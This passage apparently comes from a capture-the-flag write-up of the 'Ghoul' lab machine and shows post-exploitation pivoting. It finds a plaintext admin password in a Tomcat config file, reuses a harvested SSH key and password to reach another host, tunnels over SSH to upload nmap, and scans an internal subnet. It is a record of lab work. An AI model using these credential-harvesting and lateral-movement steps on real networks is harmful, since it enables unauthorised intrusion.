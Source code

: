 Nmap scan report for 64978af526b2.Aogiri (172.20.0.150)
Host is up (0.00030s latency).
Not shown: 1206 closed ports
PORT   STATE SERVICE
22/tcp open  ssh</pre>

Enumerating more the whole FileSystem and searching for tomcat configuration files, which could contain interesting credentials, I found the following file:
/usr/share/tomcat7/conf/tomcat-users.xml which contains a commented line :

<pre> user username="admin" password="test@aogiri123" roles="admin" </pre>

Maybe it would be usefull later on.
So it is clear that we have a new host in the network. Reading inside the .ssh folder of kaneki user I noticed a new ID of the current user:

<pre>ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDhK6T0d7TXpXNf2anZ/02E0NRVKuSWVslhHaJjUYtdtBVxCJg+wv1oFGPij9hgefdmFIKbvjElSr+rMrQpfCn6v7GmaP2QOjaoGPPX0EUPn9swnReRgi7xSKvHzru/ESc9AVIQIaeTypLNT/FmNuyr8P+gFLIq6tpS5eUjMHFyd68SW2shb7GWDM73tOAbTUZnBv+z1fAXv7yg2BVl6rkknHSmyV0kQJw5nQUTm4eKq2AIYTMB76EcHc01FZo9vsebBnD0EW4lejtSI/SRC+YCqqY+L9TZ4cunyYKNOuAJnDXncvQI8zpE+c50k3UGIatnS5f2MyNVn1l1bYDFQgYl <b>kaneki_pub@kaneki-pc</b>
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDsiPbWC8feNW7o6emQUk12tFOcucqoS/nnKN/LM3hCtPN8r4by8Ml1IR5DctjeurAmlJtXcn8MqlHCRbR6hZKydDwDzH3mb6M/gCYm4fD9FppbOdG4xMVGODbTTPV/h2Lh3ITRm+xNHYDmWG84rQe++gJImKoREkzsUNqSvQv4rO1RlO6W3rnz1ySPAjZF5sloJ8Rmnk+MK4skfj00Gb2mM0/RNmLC/rhwoUC+Wh0KPkuErg4YlqD8IB7L3N/UaaPjSPrs2EDeTGTTFI9GdcT6LIaS65CkcexWlboQu3DDOM5lfHghHHbGOWX+bh8VHU9JjvfC8hDN74IvBsy120N5 kaneki@Aogiri</pre>

Acknoweldging that we are currently into the Aogiri host, guess drives me to say that probably 172.20.0.150 is kaneki-pc. 
I tried then to use the current private ssh key present into the ssh folder of kaneki to connect to the remote host:

<pre>kaneki@Aogiri:~/.ssh$ ssh -i id_rsa kaneki_pub@172.20.0.150</pre>

Using the same password as before .. and it worked, I am in!
I noticed then another text file:

<pre>to-do.txt : Give AogiriTest user access to Eto for git.</pre>

This means that there is a git repo somewhere on one of these hosts, which could contain interesting info. Moreover, looking at ifconfig, I noticed that this box is connected to a new subnet,172.18.0.0/24:

![]({{ site.url }}{{ site.baseurl }}/assets/images/Ghoul/ifconfig_7.png)

In order to upload nmap also on this box, I used an ssh tunneling:

<pre>ssh -L 9000:172.20.0.150:22 -i ./Backups/kaneki.backup  kaneki@10.10.10.101
scp -P9000 -i id_rsa ./nmap kaneki_pub@127.0.0.1:/tmp</pre>

And in this way I have been able to successfully upload nmap to kaneki-pc ( 172.20.0.150 ).

<pre>kaneki_pub@kaneki-pc:/tmp$ ./nmap -p- 172.18.0.0-255

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2019-05-06 13:14 GMT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for Aogiri (172.18.0.1)
Host is up (0.00023s latency).
Not shown: 65530 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
2222/tcp  open  unknown
8080/tcp  open  http-alt
10007/tcp open  unknown
